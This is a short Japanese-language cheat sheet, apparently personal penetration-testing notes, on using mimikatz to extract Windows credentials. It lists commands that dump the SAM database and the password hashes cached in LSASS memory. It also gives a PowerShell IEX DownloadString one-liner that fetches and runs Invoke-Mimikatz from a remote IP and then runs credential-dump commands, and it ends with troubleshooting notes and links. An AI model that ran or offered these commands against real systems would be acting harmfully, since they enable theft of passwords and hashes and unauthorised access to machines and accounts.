


# mimikatz

### LSASS（Local Security Authority Subsystem）のプロセスメモリにキャッシュされているパスワードハッシュの抽出

```cmd
mimikatz.exe
# seDebugPrivilegeを有効にする
privilege::debug
# 整合性レベルをhigh→systemに
token::elevate
lsadump::sam
```


※lsadump::samを使ってSAMデータベースの内容をダンプしている

※LSASSはSYSTEMプロセスであり、管理者権限で動作するmimikatzよりもさらに高い権限を持っている

```
sekurlsa::logonpasswords
```

※ privilege::debugは整合性レベル高だけでは実行できず、管理者権限で実行する必要がある可能性がある（少し調べたが現時点事実を確認できていない）

以下のようなエラーが出た場合は、権限がない。




## Invoke-mimikatz

```cmd
powershell.exe IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.138/Invoke-Mimikatz.ps1')

Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```

※まだ実行に成功したことがない

※実行コマンドはコマンドプロンプトで打つより、Invoke-Mimikatz.ps1の後ろの行に記載した方がいいかも


## コマンドのチートシート

https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/logonpasswords


## トラブルシュート

### Key importエラー

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import
```

https://0xdf.gitlab.io/2019/08/17/htb-helpline-kali.html



古いmimikatzバージョンが必要

https://github.com/caday00/mimikatz2.1.1

